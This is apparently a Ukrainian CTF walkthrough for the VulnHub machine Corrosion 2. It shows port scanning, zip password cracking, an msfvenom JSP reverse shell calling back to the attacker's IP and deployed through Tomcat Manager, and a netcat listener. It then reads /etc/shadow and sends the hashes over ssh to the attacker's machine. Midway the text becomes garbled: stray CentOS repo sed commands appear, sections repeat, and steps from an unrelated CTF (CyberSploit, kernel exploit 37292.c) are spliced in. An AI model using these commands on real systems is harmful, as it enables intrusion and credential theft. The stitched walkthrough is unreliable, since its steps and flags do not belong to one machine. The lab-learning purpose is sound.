# -*- coding: utf-8 -*-
"""corrosion2_description_ua.md

В цьому документі наведено розгорнуте пояснення до завдання **Capture the Flag (CTF)**, опубліковане на сайті [**VulnHub**](https://www.vulnhub.com/entry/corrosion-2,745/) автором **"Proxy Programmer"**.
Відповідно до наданої автором інформації, рівень складності цього CTF — **СЕРЕДНІЙ**, а мета — отримати **root-доступ** до цільової машини та знайти **файли-прапорців**.

Для проходження цього CTF необхідно мати **базові знання команд Linux** та **навички використання інструментів для тестування на проникнення**.
Завантажити CTF можна [тут](https://download.vulnhub.com/corrosion/Corrosion2.ova).

> ⚠️ **Примітка**: Для запуску всіх цих вразливих машин було використано [**Oracle VirtualBox**](https://www.virtualbox.org/). Для проходження CTF використано [**Kali Linux**](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) як атакуючу машину. Використані методики призначені **виключно для освітніх цілей**. <br>
**Відповідальность за їх застосування проти будь-яких інших цілей буде визначатись відповідно чинному законодавству.**

---

Proxy Programmer’s Corrosion є машиною середньої складності призначеної для тренування, перевірки надійності мережі та налаштування привілеїв.
В цьому завданні ми виконяємо ряд кроків для компрометації машини та розглянемо деякі рекомендації для підвищення її стійкості та надійності.

## **Короткий огляд кроків вирішення CTF**
1. Запустити цільову машину та інструмент для дослідження.
2. Отримати **IP-адресу цільової машини**.
3. Просканувати **відкриті порти** за допомогою **nmap**.
4. Дослідити **HTTP-сервіси** на визначених портах. Провести огляд файлової системи web серверів та виявити приховані файли.
5. Отримати доступ до закодованих файлів захищеного архіву.
6. Проаналізувати виявлені файли на наявність корисної інформації.
7. Створення веб аплікації для зворотного зв'язку.
8. Завантаження коду на веб сервер для проникнення на цільову машину.
9. Виявлення конфіденційних файлів на цільовому комп'ютері.
10. //

//Використати виявлені облікові дані для доступу до ряду областей.
//Отримати **shell-доступ** та підвищити привілегії шляхом використання виявлених вразливостей або неправильних конфігурацій.
//Отримати **root-доступ** і прочитати **прапорці**.

//2. Перевірити **HTTP-сервіс** та знайти **перший флаг**.
//3. Отримати **shell-доступ** та знайти **другий флаг**.
//4. Отримати **root-доступ** і прочитати **прапорці**.

---

## **Проходження CTF крок за кроком**

### **Крок 1: Завантаження цільових машин у VirtualBox***
Запустимо у **VirtualBox** образ Kali Linux з командним вікном


та цільову машину для дослідження Corrosion2


---

### **Крок 2: Отримати IP-адресу цільової машини за допомогою netdiscover**
Після завантаження та запуску цільової віртуальної машини у **VirtualBox** першим кроком потрібно визначити її IP-адресу.
Для цього використовуємо команду:

```sh
sudo netdiscover
```

📌 **Результат**:

- Ми отримали IP-адресу цільової машини — **192.168.6.178**.
  

⚠️ **Примітка**: IP-адреси атакуючої та цільової машин можуть бути різними залежно від вашої мережевої конфігурації.

---

### **Крок 3: Просканувати відкриті порти за допомогою nmap**
Використаємо nmap для сканування отриманої IP-адреси на наявність **відкритих портів** та **запущених сервісів**.
Для цього використовуємо команду:

```sh
nmap -sV 192.168.6.178/24
```

📌 **Результат**:

- Відкрито порт **22 (SSH)**.
- Відкрито порт **80 (HTTP, Apache Server)**.
- Відкрито порт **8080 (HTTP, Tomcat Server)**.


Наступним кроком дослідимо **веб-додаток**, що працює через **порт 8080**.  

---

### **Крок 4: Дослідження веб-додатків на портах 80 та 8080**
Відкриємо **IP-адресу** цільової машини у браузері та побачимо **сторінку за замовчуванням** сервера Apache


Завантажилася типова сторінка сервера Apache.

Виконаємо **перебір каталогів** на сервері Apache (порт 80, по замовчуванню) за допомогою команди **dirb**:

```sh
dirb http://192.168.6.178/ -X .php,.zip
```

📌 **Результат**:
Жодних підозрілих файлів виявлено не було.


Відкриємо у браузері на порті 8080 **IP-адресу** цільової машини та побачимо типову **сторінку за замовчуванням** сервера Tomcat


Ми отримали просту сторінку сервера Tomcat, на якій немає нічого підозрілого.

Виконаємо **перебір каталогів** на сервері Tomcat (порт 8080) за допомогою команди **dirb**:

```sh
dirb http://192.168.6.178:8080/ -X .php,.zip
```

📌 **Результат**:
В одному з каталогів виявлено файл резервної копії **backup.zip**.


---

### **Крок 5: Дослідження файлу резервної копії backup.zip**
Завантажимо zip-файл за допомогою wget:

```sh
wget http://192.168.6.178:8080/backup.zip
```

📌 **Результат**:
Успішно скачано файл резервної копії **backup.zip**.


Виконаємо спробу розпакувати файл **backup.zip** за допомогою unzip:

```sh
unzip backup.zip
```

📌 **Результат**:
Файл резервної копії **backup.zip** захищений паролем.



Спроба розпакувати файл показує, що він захищений паролем.
Встановимо fast password cracker — fcrackzip за допомогою команди:

```sh
sudo apt install fcrackzip
```

📌 **Результат**:
Файл для взлому архівних паролів встановлено.


Перейдемо у папку **/usr/share/wordlists** та відобразимо список файлів.
Скористаємося командами:

```sh
cd /usr/share/wordlists
ls
```

📌 **Результат**:
У папці міститься архів **rockyou.txt.gz** з файлом ключових слів


Розпакуємо архів **rockyou.txt.gz**. Використаємо команду gunzip

```sh
gunzip rockyou.txt.gz
ls
```

📌 **Результат**:
У папці **/usr/share/wordlists** отримали текстовий файл **rockyou.txt** зі списком ключових слів


Спробуємо підібрати пароль до архіву **backup.zip**. Застосуємо параметри<br>
- за домогою ключа -D вкажемо режим словника; у цьому режимі fcrackzip зчитуватиме паролі з файлу, який повинен містити один пароль на рядок і має бути відсортований в алфавітному порядку;
- ключ -p вказує шаблон для підбору пароля;
- ключ -u інформує про те, що потрібно використовувати команду unzip для перевірки пароля.

Використаємо fcrackzip зі списком слів rockyou.txt для злому пароля:

```sh
cd ~
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
ls
```

📌 **Результат**:
Ми отримали пароль **@administrator_hi5**.


Розпакуємо файл **backup.zip** і переглянемо його вміст:

```sh
unzip backup.zip
```

📌 **Результат**:
Ми отримали список файлів з архіву **backup.zip**


---

### **Крок 6: Дослідження службових файлів Tomcat**
Перевіряємо вміст XML-файлу користувачів Tomcat. Виконаємо команду:

```sh
cat tomcat-users.xml
```

📌 **Результат**:
Файл **tomcat-users.xml** містить облікові дані:<br>
Користувач: **admin**<br>
Пароль: **melehifokivai**



---

### **Крок 7: Створення зворотньої оболонки для Tomcat**
Визначимо IP адресу нашої системи. Виконаємо команду:

```sh
ip a
```

📌 **Результат**:
IP адрес нашої системи **192.168.6.147**.


Створимо war-файл за допомогою **msfvenom**. Використаємо параметри<br>
- LHOST: IP-адреса нашого інструменту, використаємо знайдену 192.168.6.147;
- LPORT: порт прослуховування на машині інструменту, виберемо, наприклад, 5555;
- Формат виводу: WAR архів веб-застосунків.

Виконаємо команду:

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.147 LPORT=5555 -f war -o revshell.war
ls
```

📌 **Результат**:
Зворотня оболонка **revshell.war** створена


---

### **Крок 8: Завантаження зворотньої оболонки на цільовий комп'ютер**
Використовуючи виявлені облікові дані **admin:melehifokivai**, виконаємо вхід в програму Tomcat Manager.
Зайдемо у браузері на порт 8080 цільової машини 192.168.6.178


Клікнемо на кнопку **manager app**, введемо облікові дані та залогуємося за допомогою **sign in**<br>
Користувач: **admin**<br>
Пароль: **melehifokivai**


📌 **Результат**:
Ми отримали доступ до панелі керування аплікаціями на вебсервері Tomcat


Знайдемо на сторінці керування розділ із завантаженням нових WAR файлів. Клікнемо **browse**


Завантажимо створений на попередньому кроці **revshell.war**. Виберемо з папки home файл revshell.war


За допомогою кнопки deploy розгорнемо аплікацію зворотньої оболонки на сервері Tomcat


📌 **Результат**:
Наша аплікація **revshell.war** розгорнута на цільовому сервері Tomcat і доступна по URL **http://192.168.6.178:8080/revshell**


---

### **Крок 9: Дослідження цільового комп'ютера на наявність конфіденційних файлів у профілях користувачів**
Для аналізу мережевих з'єднань застосуємо команду netcat. Використаємо параметри<br>
- ключ -l задає режим прослуховування разом із номером порту;
- ключ -n означає не виконувати пошук портів та працювати з IP-адресами безпосередньо, без використання DNS;
- ключ -p вказує на номер порту;
- ключ -v задає детальний режим виводу.

Виконаємо команду netcat, щоб прослухати зворотну оболонку:

```sh
nc -lnvp 5555
ls
```

📌 **Результат**:
Утиліта netcat розпочала прослуховування запитів на порті 5555 нашої системи


Зайдемо у браузері на ресурс /revshell/ цільової машини 192.168.6.178 на порті 8080


📌 **Результат**:
В терміналі нашої системи ми побачимо конект із цільовою машиною


Після запуску корисного навантаження ми отримали оболонку. Для покращення середовища оболонки використаємо Python:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

📌 **Результат**:
Ми отримали доступ до оболонки **bash** на цільовому комп'ютері.
Це дозволить нам розпочати досліджувати систему на наявність конфіденційних файлів та потенційних шляхів для підвищення привілеїв.


Перейдемо у домашні каталоги користувачів **jaye** та **randy**. Виконаємо команди:

```sh
cd /home
ls
cd jaye
ls
cd /home/randy
ls
```

📌 **Результат**:
У домашній папці користувача **randy** ми знайшли цікаві файли **user.txt** та **note.txt**.


Розглянемо вміст файлів **user.txt** та **note.txt**. Виконаємо команди:

```sh
cat user.txt
cat note.txt
```

📌 **Результат**:
З файлу **user.txt** ми отримали прапорець, який разом із повідомленням із **note.txt**, дає нам підказки для подальших дій.


---


### **Крок 10: Дослідження облікових записів користувачів**
### **Крок 10: Дослідження потенційних шляхів для підвищення привілеїв**
Спробуємо увійти в систему як користувач **jaye**. Використаємо той самий пароль **melehifokivai**. Виконаємо команду:

```sh
ssh jaye@192.168.6.178
```

📌 **Результат**:
Ми успішно ввійшли в систему через SSH.


Залогувавшись використовуємо Python для отримання повністю інтерактивної оболонки. Виконаємо команду:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

📌 **Результат**:
Ми отримали доступ до оболонки **bash** на цільовому комп'ютері від імені користувача **jaye**.


Дослідимо файлову систему користувача **jaye**. Виконаємо команди:

```sh
ls
cd Files
ls
ls -al
```

📌 **Результат**:
Користувач **jaye** має доступ до команди **look**, за допомогою якої можна прочитати конфіденційні файли, зокрема /etc/shadow та /etc/passwd.


Використаємо команду **look** для отримання хешу паролів всіх користувачів системи. Параметри командної стрічки виберемо такі<br>
- скористаємося змінною LFILE="file to read" для визначення файлу;
- рядок з префіксом залишимо порожній (''), щоб програма look вивела усі знайдені рядки.

```sh
./look
LFILE=/etc/shadow
./look '' $LFILE
```

📌 **Результат**:
Ми отримали захешовані паролі користувачів системи.



Збережемо захешовані паролі користувачів у файлі **hashall.txt** на нашому інструменті Kali.
Виконаємо схожу команду та перенаправимо вивід у домашній каталог користувача **kali**.
При запиті підтведимо yes на введемо пароль користувача **kali**:

```sh
./look '' $LFILE | ssh kali@192.168.6.147 "cat >> ~/hashall.txt"
```

📌 **Результат**:
Ми зберегли результат команди **look** на інструменті Kali.


Перевіримо результат попередньої операції.
Повернемося на машину Kali, виконаємо два рази команду **exit** та переглянемо список файлів:

```sh
exit
exit
ls
```

📌 **Результат**:
Файл **hashall.txt** збережений в домашній папці користувача **kali**


Переглянемо вміст файлу **hashall.txt**. Виконаємо команду:

```sh
cat hashall.txt
```

📌 **Результат**:
Ми зберегли захешовані паролі користувачів системи, яку досліджуємо.



Скопіюємо з файлу **hashall.txt** рядок з даними користувача **randy**. Збережемо результат у файл з назвою **hash.txt**:

```sh
cat hashall.txt | grep randy > hash.txt
cat hash.txt
```

📌 **Результат**:
У файлі **hash.txt** збережено інформацію про користувача **randy**.



-----------
Використовуючи команду **sed** збережемо лише хеш код пароля користувача **randy** у файлі **hash.txt**. Виконаємо команду:

5  sed -i s/mirror.centos.org/vault.centos.org/g /etc/yum.repos.d/CentOS-*.repo
6  sed -i s/^#.*baseurl=http/baseurl=http/g /etc/yum.repos.d/CentOS-*.repo
7  sed -i s/^mirrorlist=http/#mirrorlist=http/g /etc/yum.repos.d/CentOS-*.repo


sed -i s/^randy=http/#mirrorlist=http/g /etc/yum.repos.d/CentOS-*.repo
sed -i 's/^randy://g' hash.txt


-------------------------------
Щоб зламати хеш код використаємо інструмент для злому паролів **john**.
Виконаємо команду з ключем допомоги:

```sh
john --help
```

Розглянемо параметри командної стрічки<br>
- синтаксис команди: john [OPTIONS] [PASSWORD-FILES]
- ключ: --wordlist[=FILE] --stdin використати режим списку слів, прочитати слова з файлу або з stdin.



Використаємо набір слів з файлу **/usr/share/wordlists/rockyou.txt**. Перевіримо існування файлу:

```sh
ls /usr/share/wordlists
```

📌 **Результат**:
Файл з типовим набором паролів міститься у папці **/usr/share/wordlists/rockyou.txt**.


Для зламу хеш коду виконаємо команду:----------------------

```sh
ls /usr/share/wordlists
john — wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

📌 **Результат**:
Ми отримали пароль корситувача randy: 07051986randy



------------------

Оскільки **SSH (порт 22) відкритий** та інших підказок немає, можна спробувати використати **перший флаг** як пароль:

```sh
ssh itsskv@192.168.88.Х
```

📌 **Результат**: **Успішний вхід через SSH!**

Після входу у систему ми перевірили **домашню директорію користувача** та знайшли **файл flag2.txt**.

Відкриваємо файл командою:
```sh
cat flag2.txt
```

📌 **Результат**: Файл містить **бінарний код**, який потрібно розшифрувати.  
За допомогою **binary-to-text декодера** ми отримали **другий флаг**.

---


📌 **Результат**:
Було знайдено файл **robots.txt**.  


Відкриваємо його у браузері та бачимо **закодований рядок**.  

Спробуємо **декодувати** цей рядок через **Burp Decoder** та отримаємо **перший флаг**:
Або скористатись командним рядком:
```sh
echo "base64-Encoded-String" | base64 --decode
```


```plaintext
Flag1: cybersploit{youtube.com/c/cybersploit}
```

---

### **Крок 4: Отримання shell-доступу**
Ми продовжили аналіз **HTML-коду** веб-сторінки та знайшли [[**ім'я користувача**]](./src/img01.PNG) у коментарях:  

```plaintext
Username: itsskv
```

Оскільки **SSH (порт 22) відкритий** та інших підказок немає, можна спробувати використати **перший флаг** як пароль:  

```sh
ssh itsskv@192.168.88.Х
```

📌 **Результат**: **Успішний вхід через SSH!**  

Після входу у систему ми перевірили **домашню директорію користувача** та знайшли **файл flag2.txt**.  

Відкриваємо файл командою:  
```sh
cat flag2.txt
```

📌 **Результат**: Файл містить **бінарний код**, який потрібно розшифрувати.  
За допомогою **binary-to-text декодера** ми отримали **другий флаг**.  

---

### **Крок 5: Отримання root-доступу**
Щоб отримати **root-доступ**, ми дослідили систему командою:  

```sh
uname -a
cat /etc/issue
```

📌 **Результат**:  
- Цільова машина працює на **Ubuntu 12.04.5**.  
- Ядро: **Linux 3.13.0**.  

- Далі знаходимо **експлойт для підвищення привілеїв** у базі **Exploit-DB**.  

- Після того завантажуємо експлойт на машину з **ParrotOS** та копіюємо на атаковану машину за допомогою команди **scp**.  

- На атакованій машині компіліруємо та запускаємо його:  
```sh
gcc 37292.c -o exploit
./exploit
```

📌 **Результат**: **Отримано root-доступ!** 🎉  

- Переходимо в директорію **/root/**, відкриваємо **фінальний флаг**:  

```sh
cat finalflag.txt
```

✅ **Фінальний флаг отримано! CTF завершено!** 🎯  

---

## **Висновок**
**Що було зроблено?**  
✔️ Визначено IP-адресу цільової машини.  
✔️ Проскановано порти та сервіси.  
✔️ Знайдено перший флаг через **robots.txt**.  
✔️ Отримано **shell-доступ** через SSH.  
✔️ Знайдено другий флаг у файлі **flag2.txt**.  
✔️ Використано **експлойт** для отримання **root-доступу**.  
✔️ Отримано **фінальний флаг**.  

🔹 **Цей CTF був прикладом навчального завдання** для відпрацювання навичок **етичного хакінгу** та тестування на проникнення.  
## Модифікований образ
https://drive.google.com/drive/folders/1bxINfhxSll6MKwqg28uDYVZY50YsaTab
"""
